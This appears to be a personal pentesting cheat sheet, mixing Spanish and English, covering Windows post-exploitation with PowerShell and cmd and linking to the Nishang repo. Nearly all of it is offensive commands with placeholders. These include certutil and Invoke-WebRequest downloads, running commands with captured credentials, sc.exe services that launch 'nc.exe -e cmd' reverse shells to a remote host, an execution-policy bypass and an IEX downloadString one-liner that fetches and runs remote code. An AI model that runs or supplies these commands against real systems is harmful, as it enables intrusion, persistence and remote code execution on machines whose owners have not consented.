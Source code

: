 ![[Pasted image 20230215173659.png]]

---
## [Nishang](https://github.com/samratashok/nishang) ---> Repo de pentesting en Powershell

```powershell
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 
> cacls 
# Analizar los permisos de un archivo 
```
## Descargar archivos con certutil.exe
```shell
certutil.exe -f -urlcache -split {url/file} {file}
# Descargar un archivo desde una url y depositarlo 
```
## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```
## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```
## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
``` 
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''

> iwr -uri 'http://{dominio}/{recurso}' -OutFile '{name}'
```
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```
## Interpret Powershell from Remote Server
```powershell
> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```


